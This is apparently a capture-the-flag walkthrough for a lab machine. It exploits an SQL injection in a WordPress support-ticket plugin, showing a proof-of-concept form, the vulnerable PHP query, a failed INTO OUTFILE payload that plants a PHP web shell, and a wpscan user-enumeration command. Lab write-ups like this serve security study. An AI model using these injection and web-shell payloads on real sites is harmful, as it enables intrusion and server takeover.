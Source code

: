 Looking at 40939 first, it describes an SQL injection published here:

- https://lenonleite.com.br/en/2016/12/13/wp-support-plus-responsive-ticket-system-wordpress-plugin-sql-injection/

The PoC is a simple HTML form which sends an HTTP POST to a vulnerable PHP file. Setting this up for the target becomes the following:

```html
<form action="https://www.brainfuck.htb/wp-admin/admin-ajax.php" method="post">
	<input type="text" name="action" value="wpsp_getCatName">
	<input type="text" name="cat_id" value="0 UNION SELECT 1,user(),3">
	<input type="submit" name="">
</form>
```

The `cat_id` field has been modified to output the user running the database. The original exploit thinks this this is column #2 so it is best to test that before moving on:

![sql_injection](./brainfuck/sql_injection.png)

This outputs `orestis@localhost` so that is valid SQL injection. However, the attack is limited due to the actual PHP source of the query:

- https://plugins.trac.wordpress.org/browser/wp-support-plus-responsive-ticket-system/trunk/includes/admin/wpsp_getCatName.php?rev=1546225

```php
<?php
  if ( ! defined( 'ABSPATH' ) ) exit; // Exit if accessed directly
  global $wpdb;
  $category = $wpdb->get_row(
    "SELECT * FROM {$wpdb->prefix}wpsp_catagories where id=".$_POST['cat_id']);
  echo stripcslashes($category->name);
?>
```

The object returned by `get_row()` must have a `name` field for it to be displayed. Trying to create a PHP shell with the following did not work so `orestis` may not have the right privileges? Moving on...

```sql
0 UNION SELECT 1,"<?php echo shell_exec($_GET['cmd']);?>",3 INTO OUTFILE '/var/www/html/wp-content/plugins/wp-support-plus-responsive-ticket-system/includes/admin/bubba.php'
```

Looking at exploit 41006, it describes a vulnerability allowing for any user to login as any other user just by knowing the username:

- https://security.szurek.pl/en/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

For this to work, a list of valid usernames is needed. `wpscan` can help here:

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u
```
